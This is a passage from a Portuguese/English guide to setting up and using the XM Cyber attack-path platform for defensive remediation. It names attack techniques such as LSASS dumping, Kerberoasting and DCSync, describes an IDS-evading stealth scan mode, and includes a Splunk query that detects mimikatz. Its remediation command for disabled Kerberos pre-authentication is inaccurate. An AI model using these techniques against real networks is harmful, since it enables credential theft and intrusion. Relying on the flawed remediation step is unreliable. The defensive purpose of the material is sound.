  Paths Blocked: 34 paths
  Remediation:
    - Decommission device (EOL)
    - Replace with modern printer (firmware auto-update)
  Effort: LOW (device replacement)
  Cost: $1,200 (vs. potential $5M breach)

Choke Point #2: printer_svc credentials
  Issue: Plaintext storage in device memory
  Paths Blocked: 89 paths
  Remediation:
    - Rotate password
    - Use read-only LDAP account
    - Implement certificate-based auth
  Effort: LOW

Choke Point #3: legacy_scanner (Kerberos Pre-Auth disabled)
  Issue: Weak config for compatibility
  Paths Blocked: 23 paths
  Remediation:
    $ Set-ADUser -Identity legacy_scanner -KerberosEncryptionType AES256
  Effort: TRIVIAL
```

---

## ⚙️ Setup e Configuração

### 🏗️ Arquitetura do XM Cyber

```
┌────────────────────────────────────────────────────────┐
│ XM Cyber Platform Architecture                        │
├────────────────────────────────────────────────────────┤
│                                                        │
│ ┌──────────────────────────────────────┐              │
│ │ Cloud Management Console (SaaS)      │              │
│ │ - Attack path analysis               │              │
│ │ - Risk scoring                       │              │
│ │ - Reporting & dashboards             │              │
│ └──────────────┬───────────────────────┘              │
│                │ HTTPS (TLS 1.3)                       │
│                ▼                                       │
│ ┌──────────────────────────────────────┐              │
│ │ XM Sensor (On-Premises)              │              │
│ │ - Network discovery                  │              │
│ │ - Credential validation              │              │
│ │ - Safe exploitation simulation       │              │
│ └──────────────┬───────────────────────┘              │
│                │ Internal Network                      │
│                ▼                                       │
│ ┌──────────────────────────────────────┐              │
│ │ Corporate Environment                │              │
│ │ ├─ Active Directory                  │              │
│ │ ├─ Workstations                      │              │
│ │ ├─ Servers (File, DB, Exchange)      │              │
│ │ └─ IoT Devices                       │              │
│ └──────────────────────────────────────┘              │
└────────────────────────────────────────────────────────┘
```

---

### 🔧 Instalação do XM Sensor

**Requisitos de Sistema:**

```yaml
Hardware:
  CPU: 4 cores (8 recommended)
  RAM: 16GB (32GB for large networks)
  Disk: 500GB SSD
  Network: 1Gbps NIC

Software:
  OS: Ubuntu 20.04/22.04 LTS or Windows Server 2019/2022
  Virtualization: VMware ESXi 7.0+, Hyper-V, KVM

Network Access Required:
  Outbound:
    - xmcyber.com:443 (Management)
    - updates.xmcyber.com:443 (Updates)
  Inbound:
    - None (sensor initiates all connections)
  
  Internal:
    - AD Domain Controller (LDAP 389, LDAPS 636, Kerberos 88)
    - All subnets to scan (ICMP, SMB 445, RDP 3389, WinRM 5985)
```

---

**Passo 1: Deploy do Sensor (OVA)**

```bash
# Download OVA
$ wget https://downloads.xmcyber.com/sensor/xm-sensor-latest.ova

# Deploy on VMware
$ ovftool --name=XM-Sensor-01 \
  --net:"VM Network"="Production_VLAN" \
  --datastore="SSD_Datastore" \
  xm-sensor-latest.ova \
  vi://vcenter.company.local/Datacenter/host/Cluster01

# Power on VM
$ vim-cmd vmsvc/power.on <vmid>
```

**Passo 2: Initial Configuration**

```bash
# SSH to sensor (default creds in welcome email)
$ ssh admin@10.0.1.100

# Run setup wizard
$ sudo xm-setup

┌─────────────────────────────────────────┐
│ XM Cyber Sensor Configuration           │
├─────────────────────────────────────────┤
│ 1. Network Configuration                │
│    IP: 10.0.1.100                       │
│    Gateway: 10.0.1.1                    │
│    DNS: 10.0.1.5                        │
│                                         │
│ 2. Management Console                   │
│    Tenant ID: company-prod              │
│    API Key: ********************        │
│                                         │
│ 3. Active Directory                     │
│    Domain: company.local                │
│    DC: dc01.company.local               │
│    Service Account: DOMAIN\xm_scanner   │
│    Password: ********************        │
│                                         │
│ 4. Scan Configuration                   │
│    Mode: Continuous                     │
│    Scan Interval: 24 hours              │
│    Throttling: Enabled (avoid detection)│
└─────────────────────────────────────────┘

[*] Configuration saved
[*] Registering with management console...
[*] Registration successful
[*] Starting first scan...
```

---

**Passo 3: Permissions do Service Account**

```powershell
# Criar service account no AD
New-ADUser -Name "XM Scanner Service" `
  -SamAccountName "xm_scanner" `
  -UserPrincipalName "xm_scanner@company.local" `
  -AccountPassword (ConvertTo-SecureString "COMPLEX_PASSWORD_HERE" -AsPlainText -Force) `
  -Enabled $true `
  -PasswordNeverExpires $true `
  -CannotChangePassword $true

# Permissões mínimas (Read-Only)
Add-ADGroupMember -Identity "Domain Users" -Members xm_scanner

# Permissions no AD (LDAP read)
# Computer Configuration → Policies → Windows Settings →
# Security Settings → Local Policies → User Rights Assignment
# → Access this computer from the network: Add DOMAIN\xm_scanner

# Grant "Log on as a service"
# (Required for credential validation)
```

> **⚠️ Segurança:** XM Scanner **NÃO** precisa de Domain Admin. Apenas read access + credential testing.

---

### 📊 Definição de Critical Assets

**Configuração via Console:**

```yaml
# XM Console → Settings → Critical Assets

Critical Assets (Crown Jewels):
  1. Domain Controllers
     - dc01.company.local (10.0.1.5)
     - dc02.company.local (10.0.1.6)
     Priority: CRITICAL
     
  2. Database Servers
     - prod-sql-01 (10.0.20.10)
     - prod-oracle-01 (10.0.20.11)
     Data Classification: PII, Financial
     Priority: CRITICAL
     
  3. File Servers
     - file-server-01 (10.0.30.5)
     Shares: Finance$, Legal$, HR$
     Priority: HIGH
     
  4. Email Server
     - email-server-01 (10.0.20.25)
     Users: 12,000 mailboxes
     Priority: HIGH
     
  5. Backup Server
     - backup-server-01 (10.0.50.10)
     Data: All corporate backups
     Priority: CRITICAL

Auto-Discovery Rules:
  - Any host with "SQL" in hostname → Database Server
  - Any host in subnet 10.0.1.0/24 → Domain Infrastructure
  - Any host with open port 636 (LDAPS) → Domain Controller
```

---

### 🎯 Scan Configuration

```yaml
Scan Settings:

Scan Frequency: Continuous (recommended)
  - Real-time attack path updates
  - Detects new vulnerabilities within 24h
  
Network Scope:
  Include:
    - 10.0.0.0/8 (Corporate Network)
    - 172.16.0.0/12 (Branch Offices)
  Exclude:
    - 10.0.200.0/24 (Guest WiFi)
    - 10.0.250.0/24 (Test Lab)

Scan Intensity:
  Mode: Stealth
    ├─ Throttling: Enabled
    ├─ Concurrent connections: 5
    ├─ Delay between requests: 500ms
    └─ Avoid IDS/IPS detection

Safe Mode: Enabled
  - No actual exploits executed
  - Credential validation only
  - No service disruption
  
Credential Testing:
  Method: Safe authentication attempts
  - NTLM hash validation (no crack)
  - Kerberos ticket requests
  - SMB null session checks
  - LDAP anonymous binds
```

---

## 🕵️ Workflow de Remediação

### 📋 Priorização de Remediação

**Framework de Decisão:**



---

### 🎫 Integração com Ticketing (Jira)

**Automação via Webhook:**

```yaml
# XM Cyber → Jira Integration

Webhook Trigger:
  Event: New Critical Attack Path (Score >= 80)
  URL: https://company.atlassian.net/webhooks/xmcyber
  
Jira Ticket Template:
  Project: SECURITY
  Issue Type: Task
  Priority: |
    if score >= 90: Highest
    elif score >= 80: High
    else: Medium
  
  Summary: |
    [XM Cyber] Attack Path to {{critical_asset}} - Score: {{risk_score}}
  
  Description: |
    h2. Attack Path Details
    
    *Critical Asset:* {{critical_asset_name}}
    *Risk Score:* {{risk_score}}/100
    *Path ID:* {{path_id}}
    *Complexity:* {{complexity}} ({{step_count}} steps)
    
    h3. Attack Chain
    {{#each steps}}
    {step_number}}. {{technique_name}}
       - Host: {{host}}
       - Technique: {{mitre_id}}
       - Exploitability: {{exploit_level}}
    {{/each}}
    
    h3. Choke Points (Remediation Priority)
    {{#each choke_points}}
    * {{name}}
      - Paths Blocked: {{paths_blocked}}
      - Remediation: {{remediation_steps}}
      - Effort: {{effort_level}}
    {{/each}}
    
    h3. Dashboard Link
    [View Full Path Analysis|{{dashboard_url}}]
  
  Labels: xmcyber, attack-path, {{critical_asset_tag}}
  
  Watchers: security-team@company.com, {{asset_owner}}
```

**Exemplo de Ticket Gerado:**

```
┌────────────────────────────────────────────────────────────┐
│ SECURITY-1234                                  Priority: 🔴 │
├────────────────────────────────────────────────────────────┤
│ [XM Cyber] Attack Path to DC01 - Score: 87/100            │
│                                                            │
│ Attack Path Details                                        │
│ ├─ Critical Asset: DC01.company.local (Domain Controller) │
│ ├─ Risk Score: 87/100 (HIGH)                              │
│ ├─ Path ID: AP-2024-00234                                 │
│ └─ Complexity: MODERATE (5 steps)                         │
│                                                            │
│ Attack Chain:                                              │
│ 1. Phishing → john.doe@company.com                        │
│ 2. Credential Theft → LSASS dump (svc_backup)             │
│ 3. Kerberoasting → svc_mssql (Domain Admin)               │
│ 4. Lateral Movement → SQL-SERVER-01                       │
│ 5. DCSync → DC01 compromise                               │
│                                                            │
│ Choke Points:                                              │
│ ✓ svc_mssql (Blocks 67 paths) - Effort: LOW               │
│   Action: Remove from Domain Admins + Rotate password     │
│                                                            │
│ ✓ Credential Guard (Blocks 156 paths) - Effort: MEDIUM    │
│   Action: Deploy GPO to enable on workstations            │
│                                                            │
│ Assigned: security-team@company.com                       │
│ Due Date: 2024-02-17 (7 days)                             │
└────────────────────────────────────────────────────────────┘
```

---

### ✅ Validation Workflow

**Post-Remediation Checklist:**

```yaml
Step 1: Implement Fix
  - Apply remediation as per choke point guidance
  - Document changes in change management system
  
Step 2: Manual Validation
  - Verify configuration deployed (GPO, registry, etc)
  - Test from user perspective (no disruption)
  
  Example (SMB Signing):
    $ nmap --script smb-security-mode -p445 <target>
    Result: message_signing: required ✓

Step 3: Trigger XM Cyber Re-scan
  - Console → Scan → Run Now (specific asset)
  - Or wait for next scheduled scan (24h)

Step 4: Verify Path Blocked
  - Check Attack Path status: BLOCKED ✓
  - Verify Risk Score reduction
  
  Before: 87/100 (67 paths)
  After:  34/100 (12 paths)
  Reduction: 61% ✓

Step 5: Close Ticket
  - Update Jira with validation results
  - Attach screenshots from XM Console
  - Mark as Resolved

Step 6: Continuous Monitoring
  - Monitor for new paths (weekly review)
  - Track metrics (MTTC, path count trend)
```

---

## 📊 Melhores Práticas

### 1. Asset Classification

```yaml
Tier 0 (Crown Jewels):
  Definition: Assets that, if compromised, cause total business failure
  Examples:
    - Domain Controllers
    - Core databases (customer PII)
    - Payment gateways
    - PKI infrastructure
  Monitoring: Continuous (any new path = P0 alert)

Tier 1 (Critical):
  Definition: Assets with sensitive data or critical business functions
  Examples:
    - File servers (Finance, Legal, HR shares)
    - Email servers
    - ERP systems (SAP, Oracle)
  Monitoring: Daily scans, weekly review

Tier 2 (Important):
  Definition: Assets that support business operations
  Examples:
    - Application servers
    - CI/CD pipelines
    - Internal wikis
  Monitoring: Weekly scans, monthly review

Tier 3 (Standard):
  Definition: General workstations and non-critical systems
  Examples:
    - User workstations
    - Development environments
    - Test servers
  Monitoring: Monthly scans, quarterly review
```

---

### 2. Choke Point Remediation Strategy

**Rule: Fix the FEWEST things that block the MOST paths**

```python
# Pseudo-algorithm for prioritization

def prioritize_remediation(choke_points):
    scored_items = []
    
    for choke_point in choke_points:
        # Calculate ROI score
        roi_score = (
            choke_point.paths_blocked * 10 +  # Impact
            (100 - choke_point.effort_hours) + # Inverse of effort
            choke_point.critical_assets_protected * 20  # Business value
        )
        
        scored_items.append({
            'name': choke_point.name,
            'roi_score': roi_score,
            'paths_blocked': choke_point.paths_blocked,
            'effort': choke_point.effort_hours
        })
    
    # Sort by ROI (descending)
    return sorted(scored_items, key=lambda x: x['roi_score'], reverse=True)

# Example output:
# 1. Credential Guard deployment (ROI: 1850)
#    └─ Blocks 156 paths, protects 8 critical assets, 40h effort
# 2. svc_mssql remediation (ROI: 1420)
#    └─ Blocks 67 paths, protects 5 critical assets, 2h effort
# 3. SMB Signing GPO (ROI: 1200)
#    └─ Blocks 89 paths, protects 4 critical assets, 16h effort
```

---

### 3. Safe Testing vs Production Exploitation

**XM Cyber Safe Mode (Default):**

```yaml
Safe Techniques (No Disruption):
  ✓ Credential validation (authentication attempts)
  ✓ Permission enumeration (LDAP queries)
  ✓ Network discovery (port scans)
  ✓ Hash validation (no cracking)
  ✓ Token existence checks (no impersonation)

Dangerous Techniques (Disabled by Default):
  ✗ Actual exploit execution (buffer overflow, RCE)
  ✗ Service disruption (DoS, crash)
  ✗ Data modification (write operations)
  ✗ Malware deployment

Example: Kerberoasting
  Safe Mode:
    - Request TGS ticket ✓
    - Check if hash is crackable (entropy analysis) ✓
    - Simulate crack time (hashcat benchmark) ✓
    - Do NOT actually crack (unless explicitly enabled)
  
  Result: "svc_mssql is Kerberoastable, estimated crack time: 2h"
```

**When to Enable Aggressive Mode:**

```yaml
Use Case: Controlled Purple Team Exercise
  Prerequisites:
    - Change window approved
    - Backup taken
    - Rollback plan documented
    - Limited scope (specific subnet)
  
  Configuration:
    XM Console → Settings → Scan Mode → Aggressive
    ├─ Enable actual exploits
    ├─ Enable credential cracking
    └─ Enable privilege escalation

  Monitoring:
    - EDR alerts (validate detection)
    - IDS/IPS logs (validate prevention)
    - SIEM correlation (incident response testing)
```

---

### 4. Metrics & KPIs

```yaml
Executive Dashboard (Monthly):
  - Critical Assets at Risk: 12 → 3 (75% reduction)
  - Average Risk Score: 67 → 28 (58% improvement)
  - Mean Time to Compromise (MTTC): 3.2 days → 9.8 days
  - Attack Paths: 234 → 67 (71% reduction)

Operational Dashboard (Weekly):
  - New Attack Paths: 12
  - Blocked Paths (remediation): 23
  - High-Value Choke Points: 8 identified
  - Open Remediation Tickets: 15 (SLA: 85% on-time)

Trending (Last 90 days):
  Week 1:  234 paths | Risk Score: 67
  Week 4:  201 paths | Risk Score: 61 (↓ 9%)
  Week 8:  156 paths | Risk Score: 49 (↓ 27%)
  Week 12: 67 paths  | Risk Score: 28 (↓ 58%) ✓
  
  Trend: Consistent improvement (target: <50 paths by Q2)
```

---

### 5. Integration com SIEM

**Correlação de Eventos:**

```yaml
# Splunk Query Example

index=xmcyber OR index=windows OR index=edr
| transaction host maxspan=1h
| search 
    (xmcyber_attack_path=* AND risk_score>=80)  # XM Cyber alert
    OR (EventCode=4624 AND Logon_Type=3)         # Network logon
    OR (edr_alert=*mimikatz*)                    # EDR detection
| stats count by host, xmcyber_attack_path, EventCode, edr_alert
| where count > 1  # Correlated events

# Alert if:
# XM Cyber predicts path + Real attack detected = TRUE POSITIVE validation
```

**Example Correlation:**

```
┌────────────────────────────────────────────────────────────┐
│ CORRELATED INCIDENT                                        │
├────────────────────────────────────────────────────────────┤
│ 2024-02-10 14:23:18                                        │
│                                                            │
│ XM Cyber Alert:                                            │
│ ├─ Attack Path AP-2024-00234 (Risk: 87)                   │
│ ├─ Technique: LSASS credential dumping                    │
│ └─ Target: WORKSTATION-15                                 │
│                                                            │
│ EDR Alert (2 min later):                                  │
│ ├─ Host: WORKSTATION-15                                   │
│ ├─ Process: powershell.exe                                │
│ ├─ Command: Invoke-Mimikatz                               │
│ └─ Action: BLOCKED by EDR ✓                               │
│                                                            │
│ Windows Event Log:                                         │
│ ├─ EventID: 4688 (Process Creation)                       │
│ ├─ User: DOMAIN\john.doe                                  │
│ └─ Parent: outlook.exe (phishing email?)                  │
│                                                            │
│ Conclusion: XM Cyber prediction VALIDATED                  │
│ - Attack path was real (not just theoretical)              │
│ - EDR successfully blocked (controls effective)            │
│ - User training needed (fell for phishing)                 │
└────────────────────────────────────────────────────────────┘
```

---

## 🔗 Links e Referências

- **XM Cyber Docs:** https://docs.xmcyber.com
- **MITRE ATT&CK:** https://attack.mitre.org
- **Credential Guard:** https://learn.microsoft.com/windows/security/identity-protection/credential-guard/
- **AD Security Best Practices:** https://adsecurity.org

---

## 📝 Changelog

|Data|Versão|Alteração|
|---|---|---|
|2024-02-10|1.0|Documento inicial criado|

---

> **💡 Dica final:** Use XM Cyber em conjunto com Tenable: **Tenable** encontra vulnerabilidades individuais, **XM Cyber** mostra como combiná-las em um ataque. Priorize remediação baseada em **Attack Paths**, não apenas CVSS scores.

**Comparação de Ferramentas:**

|Ferramenta|Tipo|Foco|Quando Usar|
|---|---|---|---|
|**XM Cyber**|BAS/APM|Attack paths, lateral movement|Priorização de remediação|
|**Tenable**|DAST/VM|Vulnerabilidades, misconfigs|Inventário de falhas|
|**SonarQube**|SAST|Código-fonte|Shift-left security|

